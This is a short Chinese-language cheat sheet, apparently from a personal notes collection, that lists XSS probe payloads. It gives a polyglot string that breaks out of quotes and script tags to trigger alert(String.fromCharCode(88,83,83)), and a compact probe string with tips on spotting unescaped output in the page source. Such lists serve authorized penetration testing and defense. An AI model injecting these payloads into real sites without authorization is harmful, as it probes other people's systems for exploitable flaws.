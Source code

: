 ```yaml
---
title: xss payload
tags: xss,payload,001
grammar_cjkRuby: true
---
```



XSS 探测器 01：

``` javascript
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";

alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--

></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

```

XSS探测器 02（如果你没有充足的输入空间去检测页面是否存在xss漏洞。下面这段代码是一个好的简洁的xss注入检测代码。在注入这段代码后，查看页面源代码寻找是否存在看起来像 <XSS verses <XSS这样的输出点从而判断是否存在xss漏洞。 ）：

``` javascript
'';!--"<XSS>=&{()}
```

